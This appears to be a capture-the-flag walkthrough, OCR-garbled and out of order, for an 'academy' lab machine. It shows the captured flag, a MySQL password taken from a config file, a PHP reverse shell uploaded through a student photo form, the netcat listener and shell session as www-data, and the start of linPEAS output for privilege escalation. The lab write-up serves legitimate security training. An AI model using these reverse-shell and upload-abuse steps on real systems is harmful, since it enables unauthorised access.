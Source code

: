 The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta


### flag.txt
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !


## Exploitation
/var/www/html/academy/admin/includes/config.php:
$mysql_password = "My_V3ryS3cur3_P4ss";


### PHP- Reverse Shell
Uploading the reverse shell in student photo option

┌──(root㉿wahaj)-[/home/wahaj/Desktop]└─# nc -lvp 1234    
listening on [any] 1234 ...192.168.1.107: 
inverse host lookup failed: Unknown hostconnect to [192.168.1.107] from (UNKNOWN) [192.168.1.107] 55133
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux 06:22:17 up  1:04,  1 user,  load average: 0.00, 0.54, 1.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                10:18   14:41   0.04s  0.01s -bashuid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty;
 job control turned off$whoami
 www-data

### Privilege Escalation
We are www-data users so we have to get root access.

Executing linPEAS



#### linpeas
 linpeas v2.2.7 by carlospolop
                                                                                                                                                               
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEYEND:                                                                                                                                                       
  RED/YELLOW: 99% a PE vector
  RED: You must take a look at it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMangenta: Your username
